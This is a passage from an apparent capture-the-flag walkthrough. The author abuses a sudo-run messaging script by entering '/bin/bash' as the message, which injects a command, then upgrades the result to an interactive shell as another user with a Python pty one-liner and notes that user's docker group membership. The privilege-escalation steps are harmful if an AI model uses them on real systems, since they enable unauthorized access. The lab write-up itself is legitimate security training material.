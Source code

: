 ```sh

		echo ""
echo "Message sent to $name :) "
		echo ""
```

Decided to run it without doing anything and it looks like it just notifies me that it’s sending the message to Selina.

```sh
Welcome to linux.messenger 


ariana:
selena:
ftpuser:

Enter username to send message : selena

Enter message for selena :test

Sending message to selena 

Message sent to selena :) 
```

I ran it again with sudo and in the message portion I started a bash shell with /bin/bash. After sending the message it stops and it looks like I might have a shell. So, I decided to spawn a shell using Python’s pty library which spawns a full shell as the user selena.

I enter the id command and it looks like selena is part of the docker group on the machine. Which may come in handy later.

```sh
Welcome to linux.messenger 


ariana:
selena:
ftpuser:

Enter username to send message : selena

Enter message for selena :/bin/bash

Sending message to selena 
python3 -c 'import pty;pty.spawn("/bin/bash")'
selena@pwned:/home/ariana$ id
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
```

Checked the contents of the directory. Looks like there is a file named user2.txt in the directory. Looks like the flag is in the output below.
